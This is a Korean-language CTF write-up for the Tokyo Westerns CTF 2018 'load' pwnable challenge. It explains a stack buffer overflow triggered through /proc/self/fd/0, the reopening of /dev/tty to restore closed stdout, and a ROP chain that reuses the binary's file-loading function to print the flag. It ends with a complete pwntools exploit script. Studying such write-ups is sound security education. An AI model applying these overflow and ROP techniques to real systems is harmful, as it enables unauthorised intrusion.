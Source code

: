 ```yaml
---
title: Tokyo Westerns CTF 2018 - load
date: 2024-07-10 00:00:00 +0900
categories: [CTF, Pwnable]
tags: [ctf, pwnable, file descriptor, /dev/tty]
render_with_liquid: false
---
```

## 0x00. Introduction

``` bash
[*] '/home/user/load'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    FORTIFY:  Enabled
```

## 0x01. Vulnerability

``` c
int __fastcall load_file_4008FD(void *buf, const char *file_name, __off_t offset, size_t size)
{
  int fd; // [rsp+2Ch] [rbp-4h]

  fd = open(file_name, 0);
  if ( fd == -1 )
    return puts("You can't read this file...");
  lseek(fd, offset, 0);
  if ( read(fd, buf, size) > 0 )
    puts("Load file complete!");
  return close(fd);
}
```

`load_file_4008FD()`를 보면 입력받은 파일명을 `open`해서 내용을 `size`만큼 읽은 후 `main()`의 `buf` 변수에 써준다.

이 때 `file_name`을 `/proc/self/fd/0`으로 조작해준다면, 파일의 내용을 읽는 것이 아닌 `stdin`을 읽어서 `buf`에 쓰는 꼴이 된다.

``` c
  char buf[32]; // [rsp+0h] [rbp-30h] BYREF
  size_t size; // [rsp+20h] [rbp-10h]
  __off_t offset; // [rsp+28h] [rbp-8h]
```

`main()`의 `buf`는 `rbp-0x30`에 위치해있고 원하는 만큼 `size`를 입력할 수 있으니 BOF 취약점이 발생한다.

## 0x02. Exploit

BOF 취약점이 있으니 libc leak을 하려고 했는데 PLT가 있는 `puts()`든 `_printf_chk()`든 이상하게 출력이 안됐다.

그래서 디버깅을 해보니 `puts()`의 리턴 값이 `-1`인 것을 확인했고, 뭔가 에러가 발생했음을 알았다.

언제 이런 에러가 발생하는지 찾아보다가 `stdout`에 문제가 생기면 그럴 수 있다는 정보를 찾아서 확인해보니...

``` c
int close_4008D8()
{
  close(0);
  close(1);
  return close(2);
}
```

`load_file_4008FD()`이 끝난 후 `main()`이 종료되기 전에 `close_4008D8()`라는 함수가 호출되는데, 여기에서 `stdout`을 close해버린다.

그래서 구글링을 열심히 해보니 `/dev/tty`를 `open`하면 다시 `stdout`을 살릴 수 있다는 것을 알았다.

문제는 `/dev/tty`를 어디에 넣어놓고 `open()`에 전달할 것이냐인데, BOF 취약점을 트리거하기 위해 `file_name`에 `/proc/self/fd/0`을 넣는 과정에서 `\x00`을 하나 추가하고 `/dev/tty`를 전달하면 될 것 같았다.

``` python
    # open("/dev/tty", O_RDWR | O_CREAT)
    payload_open = p64(ppr)
    payload_open += p64(66)                     # pop rsi
    payload_open += p64(0)                      # pop r15
    payload_open += p64(pr)
    payload_open += p64(bp['file_name'] + 0x10) # pop rdi
    payload_open += p64(elf.plt['open'])
```

위 payload를 ROP chain에 3번 넣어서 `/proc/self/fd/`에 순서대로 0, 1, 2가 생성되는 것을 확인했다.

이렇게 leak을 하는데에는 성공했으나 `stdin`을 살렸음에도 다음 playoad를 전송하는 것에 실패했다.

그래서 고민이 됐던게 leak을 해봤자 다음 입력을 줄 수가 없으므로 한번에 입력을 줘서 flag를 `open` -> `read` -> `write`를 다 시켜야하는데 `rdx` 관련 가젯이 없다.

그러면 `read`의 세 번째 인자인 `size` 컨트롤이 불가능하기 때문에 `open("flag", 'r');`을 한 이후의 `rdx` 값이 내용을 읽어오기에 충분히 큰 값이기를 기도해야하는데...

실제로 확인해보니 `open`이 종료되고 난 `rdx` 값이 0이었다.

어떻게 출력을 할지 한참을 고민하다가...

``` c
  load_file_4008FD(buf, byte_601040, offset, size);
```

마침 동일한 로직을 수행하는 함수가 코드 영역에 있었다!

-   `rdi` : pop rdi; ret; 가젯 활용, free space인 byte_601040
-   `rsi` : pop rsi; pop r15; ret; 가젯 활용, BOF 트리거 할 때 넣은 "flag" 위치
-   `rdx` : open 종료 후 0
-   `rcx` : open 종료 후 0x00007ffff7e9e53b (충분히 큰 값)

이런식으로 레지스터를 컨트롤해주면 `flag`를 출력할 수 있었다.

## 0x03. Payload

``` python
from pwn import *
from pwnlib.util.packing import p32, p64, u32, u64
import sys

DEBUG = True
BINARY = "load"
LIBRARY = "libc.so.6"

pr = 0x0000000000400a73
ppr = 0x0000000000400a71
bp = {
    'read_of_load_file' : 0x400966,
    'main' : 0x400817,
    'end_of_main' : 0x4008A8,
    'close' : 0x4008D8,
    'read_str' : 0x400986,
    'file_name' : 0x601040,
    'load_file' : 0x4008FD,
}

gs = f'''
continue
'''
context.terminal = ['tmux', 'splitw', '-hf']

def send_msg(s, msg):
    print(s.recvuntil(b": "))
    s.sendline(msg.encode())

def main():
    if(len(sys.argv) > 1):
        s = process(BINARY)
    else:
        s = process(BINARY)
        if DEBUG:
            gdb.attach(s, gs)
    elf = ELF(BINARY)
    lib = ELF(LIBRARY)

    send_msg(s, "/proc/self/fd/0\x00/dev/tty\x00flag\x00")
    send_msg(s, "0")
    send_msg(s, "1024")

    payload = b"A" * 0x30
    payload += b"B" * 8

    # open("/dev/tty", O_RDWR | O_CREAT)
    payload_open = p64(ppr)
    payload_open += p64(66)                     # pop rsi
    payload_open += p64(0)                      # pop r15
    payload_open += p64(pr)
    payload_open += p64(bp['file_name'] + 0x10) # pop rdi
    payload_open += p64(elf.plt['open'])

    # open 3 times -> open 0, 1, 2
    payload += payload_open * 3

    # load_file_4008FD(byte_601040, "flag", offset, size)
    payload += p64(ppr)
    payload += p64(bp['file_name'] + 0x19)      # pop rsi
    payload += p64(0)                           # pop r15
    payload += p64(pr)
    payload += p64(bp['file_name'])             # pop rdi
    payload += p64(bp['load_file'])

    # puts(byte_601040)
    payload += p64(pr)
    payload += p64(bp['file_name'])             # pop rdi
    payload += p64(elf.plt['puts'])

    log.info(f"payload length : {hex(len(payload))}")
    s.sendline(payload)
    pause()
    print(s.recv().split(b"\n")[2])

if __name__=='__main__':
    main()
```
